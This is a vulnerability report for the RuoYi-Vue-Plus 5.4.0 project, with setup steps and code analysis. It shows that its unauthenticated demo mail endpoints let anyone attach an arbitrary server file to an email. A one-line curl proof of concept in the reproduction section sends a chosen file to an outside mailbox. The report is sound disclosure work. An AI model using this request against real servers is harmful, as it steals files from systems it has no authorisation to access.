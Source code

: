 # RuoYi-Vue-Plus Vulnerability Report

This document describes a `Arbitrary File Read` vulnerability found in the [RuoYi-Vue-Plus](https://github.com/dromara/RuoYi-Vue-Plus) repository.  

Discovery Date: 2025-06-20

The official website of the project is: [https://dromara.org/](https://plus-doc.dromara.org/#/)

## Vulnerability Details

In the `RuoYi-Vue-Plus` project, The endpoints `/demo/mail/sendMessageWithAttachment` and `/demo/mail/sendMessageWithAttachments` in `MailController.java` can be accessed without authentication and allow attackers to specify arbitrary file paths as email attachments. This leads to an `arbitrary file read` vulnerability, enabling exfiltration of sensitive files from the server.

- **Project Link:** `https://github.com/dromara/RuoYi-Vue-Plus`

- **Affected Version:** `5.4.0`

- **Affected API:** `/demo/mail/sendMessageWithAttachment` and `/demo/mail/sendMessageWithAttachments`

- **Code Location:** `/src/main/java/org/dromara/demo/controller/MailController.java`

## Test Environment Setup

1. **JDK 17**

2. **Maven Build**

3. **Mysql Database Startup**

```bash
docker run --name mysql-test -p 3306:3306 -e MYSQL_ROOT_PASSWORD='root' -e MYSQL_DATABASE=ry-vue mysql:latest
```

4. **Database Initialization**

Execute the following SQL scripts in the `/RuoYi-Vue-Plus-5.4.0/script/sql` directory in the following order:

`ry_vue_5.X.sql`

`ry_job.sql`

`ry_workflow.sql`

5. **Redis Startup**
```bash
docker run -d --name redis-test -p 6379:6379 redis:latest \
redis-server --requirepass ruoyi123
```

6. **Modify the Email Sending Configuration.**

Update the following settings in the `/ruoyi-admin/src/main/resources/application-dev.yml` configuration file.

```yml
--- # mail 邮件发送
mail:
  enabled: true
  host: smtp.163.com
  port: 465
  # 是否需要用户名密码验证
  auth: true
  # 发送方，遵循RFC-822标准
  from: xxxxxx@163.com
  # 用户名（注意：如果使用foxmail邮箱，此处user为qq号）
  user: xxxxxx@163.com
  # 密码（注意，某些邮箱需要为SMTP服务单独设置密码，详情查看相关帮助）
  pass: xxxxxx
  # 使用 STARTTLS安全连接，STARTTLS是对纯文本通信协议的扩展。
  starttlsEnable: false
  # 使用SSL安全连接
  sslEnable: true
  # SMTP超时时长，单位毫秒，缺省值不超时
  timeout: 0
  # Socket连接超时值，单位毫秒，缺省值不超时
  connectionTimeout: 0
```

Set the `from` and `user` fields to the email address used for sending emails. 

For the `pass` field, a separate SMTP password (not the account's original password) must be configured in 163 Mail. 

Additionally, if you continue to use a 163 mailbox for testing, the `starttlsEnable` parameter must be set to `false`.

7. **Launch the project via IDEA**

Start the following three services:

`DromaraApplication`, which will run on port `8080`;

`MonitorAdminApplication`, which will run on port `9090`;

`SnailJobServerApplication`, which will run on port `8800`.

## Steps to Reproduce

### 1. Trigger `Arbitrary File Read`

Run the following command.

```bash
curl -X GET "http://localhost:8080/demo/mail/sendMessageWithAttachment?to=xxxxxx@163.com&subject=Test-Mail&text=This%20is%20a%20test%20message&filePath=/path/to/secret"
```

Here, the `/sendMessageWithAttachment` interface was tested. The `to` parameter specifies the recipient's email address, `subject` is the email subject, `text` is the email body, and `filePath` indicates the path of the file to be attached — which can be any file on the system.

The response will be:

```sh
{"code":200,"msg":"操作成功","data":null}%  
```

Indicates that the email was sent successfully.

### 2. Check the Email

![Local Image](email.png)

The `secret` file has been received.

The `/sendMessageWithAttachments` interface uses the same underlying logic, but allows sending multiple attachments at once. This will not be elaborated here.

## Code Analysis

1. At line `50` of `MailController.java`, it received parameters from external sources and called the function `MailUtils.sendText` without validation..

```java
@GetMapping("/sendMessageWithAttachment")
public R<Void> sendMessageWithAttachment(String to, String subject, String text, String filePath) {
    MailUtils.sendText(to, subject, text, new File(filePath));
    return R.ok();
}
```

2. In `MailUtils.java`, the parameters are passed through multiple times, but no validation is performed on the file or the destination address.

3. Finally, at line `416` of `MailUtils.java`, the function `send` is declared. 

And at line `444`, it called `JakartaMail.send()` to send the email.

```java
private static String send(MailAccount mailAccount, boolean useGlobalSession, Collection<String> tos, Collection<String> ccs, Collection<String> bccs, String subject, String content,
                               Map<String, InputStream> imageMap, boolean isHtml, File... files) {
    final JakartaMail mail = JakartaMail.create(mailAccount).setUseGlobalSession(useGlobalSession);

    // 可选抄送人
    if (CollUtil.isNotEmpty(ccs)) {
        mail.setCcs(ccs.toArray(new String[0]));
    }
    // 可选密送人
    if (CollUtil.isNotEmpty(bccs)) {
        mail.setBccs(bccs.toArray(new String[0]));
    }

    mail.setTos(tos.toArray(new String[0]));
    mail.setTitle(subject);
    mail.setContent(content);
    mail.setHtml(isHtml);
    mail.setFiles(files);

    // 图片
    if (MapUtil.isNotEmpty(imageMap)) {
        for (Entry<String, InputStream> entry : imageMap.entrySet()) {
            mail.addImage(entry.getKey(), entry.getValue());
            // 关闭流
            IoUtil.close(entry.getValue());
        }
    }

    return mail.send();
}
```

Therefore, through the above interface, an attacker can obtain any file from the system by sending emails without logging in.
